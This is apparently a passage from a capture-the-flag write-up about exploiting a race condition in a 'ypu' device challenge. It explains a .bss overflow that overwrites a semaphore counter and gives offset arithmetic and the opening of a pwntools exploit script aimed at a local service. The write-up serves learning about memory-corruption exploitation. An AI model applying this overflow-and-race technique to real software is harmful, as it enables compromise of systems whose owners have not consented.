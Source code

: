 In order to acquire the flag, I've used the following oneliner:

```bash
while true; do cat ./OUT ; done
```

## Challenge 4

Now the userspace component contains mutexes. In particular, for every ypu instance, `sem_init` is being called, initializing its semaphore as a threads-smaphore with the value of `1`. Upon calling the `init_ypu, run_ypu` handlers, `sem_wait` and `sem_post` are being called. \
However, recall that the critical sections that are being locked are:

1. The `memcpy`, issued by `T2, T3`, that performs the write to the mmap'ed region

2. The `ioctl`, issued by `T1`. 

This means that while perfoming the `ioctl` handler, m`T1` executes at the kernel, and the lock is held. Hence, no other thread can change the content of the device's corresponding `mmap`ed region. \
Notice, however, that the lock is per-ypu. This means that there isn't synchronization between multiple different ypus within the kernel. However, since different ypus contain no shared memory regions, this wouldn't be possible to exploit. \
Therefore, I assume the exploitation route goes through first overwriting metadata regarding the semaphore (whether its content - such as the `counter` member, or its pointer within the `.bss` - so we would use different semaphore instances), then fallbacking to challenge-3. Since overwriting the counter of a semaphore (to some high value) should be simpler exloit, this is my current target. \

```bash
read_addr = &data + 0x1000 + 768 * i
semaphore_addr = &data + (384 + i) * 32

read_max = &data + 0x1000 + 768 * 15
semaphore_min = &data + 384 * 32
```

This means we can perform from userspace a linear `.bss` overflow of up to `15616 - 12288` bytes. If we'd like to overwrite the semaphore of ypu0, we'd have to supply `i = 15`, writing total of `384 * 32 - 768 * 15` padding bytes, and then overwriting the semaphore struct. Since the `counter` is actually stored within the first bytes of the semaphore object, we're good with supplying only 1 byte of overwrite. \
Lastly, in order to avoid the `mmap` array being corrupted by the `read` that corrupts the semaphore object, I've used an initial thread, `T0`, that all it does is to overwrite the semaphore and hang for the rest of bytes with `read`. 

```python
def main():    
    p = process(BINARY)

    input("waiting for input..")
    log.info("Exploit starts!")

    iterations = 10000000
    batch=100
    target_ypu = 0
    r1_program = 0
    r2_program = 1
    r3_program = 2
    yancode = gen_yancode()
    adjusted_yancode = gen_yancode(adjusted=True)

    r0 = remote('localhost', 1337)
    r1 = remote('localhost', 1337)
    r2 = remote('localhost', 1337)
    r3 = remote('localhost', 1337)

    # Overwrite semaphore counter
    buf = b'A' * (384 * 32 - 768 * 15)
```